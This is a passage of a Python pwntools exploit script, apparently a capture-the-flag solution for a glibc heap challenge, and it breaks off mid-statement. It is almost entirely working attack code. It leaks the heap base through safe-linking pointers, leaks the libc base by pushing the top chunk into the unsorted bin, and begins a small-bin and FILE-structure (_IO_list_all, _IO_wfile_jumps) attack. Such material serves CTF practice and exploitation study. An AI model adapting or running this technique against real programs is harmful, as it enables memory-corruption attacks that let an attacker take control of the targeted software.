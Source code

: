 ```python
            gdb.attach(sh, 'b malloc\nb free')
            # gdb.attach(sh, 'b _IO_flush_all\nc')

    def malloc(large:bool, cont:bytes):
        sh.sendlineafter(b'3:', b'1')
        sh.sendlineafter(b'big', b'2' if large else b'1')
        sleep(0.25)
        sh.send(cont)

    def free():
        sh.sendlineafter(b'3:', b'2')
        # if sh.recvuntil(b'wrong', timeout=0.125):
        #     warn(f'freeing null chunk @ line {inspect.stack()[1].lineno}')

    def show() -> bytes:
        sh.sendlineafter(b'3:', b'3')
        return sh.recvuntil(b'1:', True)

    def malloc0x10():
        sh.sendlineafter(b'3:', b'4')

    def eout():
        sh.sendlineafter(b'3:', b'5')

    def malloc0x1000():
        sh.sendlineafter(b'3:', b'6')
    
    PROTECT_PTR = lambda pos, ptr: (pos >> 12) ^ ptr
        
    # Step 1, leak heapBase
    malloc(False, b'\n')
    free()
    malloc(True, b'\n')
    free()
    malloc(False, b'FLAG'.rjust(0x20))
    val = show()
    idx = val.index(b'FLAG') + 4
    heapBase = u64(val[idx:idx + 5] + b'\0\0\0') << 12
    success(GOLD_TEXT(f'Leak heapBase: {hex(heapBase)}'))

    # Step 2, leak libcBase
    free()
    malloc(False, b'0'*0x10 + p64(0) + p64(0x61)) # restore heap layout
    free()
    malloc(True, b'0'*0x50 + p64(0) + p64(0xcf1))
    malloc0x1000() # put top_chunk in unsorted bin
    free()
    malloc(True, b'FLAG'.rjust(0x60))
    val = show()
    idx = val.index(b'FLAG') + 4
    
    mainArena = u64(val[idx:idx + 6] + b'\0\0') - 0x60 # sub unsorted bin offset
    libcBase = mainArena - arena
    success(GOLD_TEXT(f'Leak libcBase: {hex(libcBase)}'))

    ioListAll = libcBase + libc.symbols['_IO_list_all']
    wjumps = libcBase + libc.symbols['_IO_wfile_jumps']

    # Step 3, shrink old top_chunk and put it in small bin
    malloc0x10() # clear the remaining tcache chunk
    free()
    malloc(True, b'0'*0x50 +                                     # the size of "small bin" we can control is 0x21
```
